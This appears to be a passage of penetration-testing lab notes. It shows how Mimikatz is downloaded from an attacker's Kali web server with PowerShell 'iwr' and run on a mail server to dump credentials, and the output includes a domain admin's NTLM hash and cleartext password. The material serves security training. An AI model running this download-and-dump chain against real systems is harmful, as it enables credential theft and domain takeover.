 Next, we'll download the current _Mimikatz_ version on Kali and serve it via our Python3 web server on port 8000
+ On MAILSRV1, we'll download Mimikatz with **iwr** and launch it 
```
PS C:\Users\Administrator> iwr -uri http://192.168.119.5:8000/mimikatz.exe -Outfile mimikatz.exe

PS C:\Users\Administrator> .\mimikatz.exe
.\mimi.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/
```

Once Mimikatz is launched, we can use **privilege::debug** to obtain _SeDebugPrivilege_
+ Then, we can use **sekurlsa::logonpasswords** to list all provider credentials available on the system
```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords
...
Authentication Id : 0 ; 253683 (00000000:0003def3)
Session           : Interactive from 1
User Name         : beccy
Domain            : BEYOND
Logon Server      : DCSRV1
Logon Time        : 3/8/2023 4:50:32 AM
SID               : S-1-5-21-1104084343-2915547075-2081307249-1108
        msv :
         [00000003] Primary
         * Username : beccy
         * Domain   : BEYOND
         * NTLM     : f0397ec5af49971f6efbdb07877046b3
         * SHA1     : 2d878614fb421517452fd99a3e2c52dee443c8cc
         * DPAPI    : 4aea2aa4fa4955d5093d5f14aa007c56
        tspkg :
        wdigest :
         * Username : beccy
         * Domain   : BEYOND
         * Password : (null)
        kerberos :
         * Username : beccy
         * Domain   : BEYOND.COM
         * Password : NiftyTopekaDevolve6655!#!
...
```

We successfully extracted the clear text password and NTLM hash of the domain administrator _beccy_
+ Let's store both of them together with the username in **creds.txt** on our Kali system
+ Armed with these credentials, we can now take the last step of the penetration test: accessing the domain controller. 
	+ We'll do this in the next section
